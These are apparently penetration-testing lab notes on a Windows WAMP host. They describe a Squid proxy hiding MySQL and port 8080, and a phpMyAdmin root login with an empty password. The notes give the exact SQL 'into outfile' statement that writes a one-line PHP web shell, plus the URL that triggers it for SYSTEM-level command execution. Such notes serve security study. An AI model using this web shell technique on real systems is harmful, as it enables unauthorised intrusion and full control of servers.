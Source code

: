 #### ++ INFO ++
-> We found Squid proxy, which is hiding ports 3306 and 8080
-> In phpMyAdmin we upload a shell to `C:\wamp\www\backdoor.php` launching the following shell:
	`SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\wamp\\www\\backdoor.php"`
	Trigger the shell by accessing `http://192.168.243.189:8080/backdoor.php?cmd=whoami` and we are nt authority/system

#### ++ CREDENTIALS ++
	root:"" (phpmyadmin)
	
#### ++ Weak credentials in phpMyAdmin (empty pasword) ++
	We can log in to phpMyAdmin with root user and empty password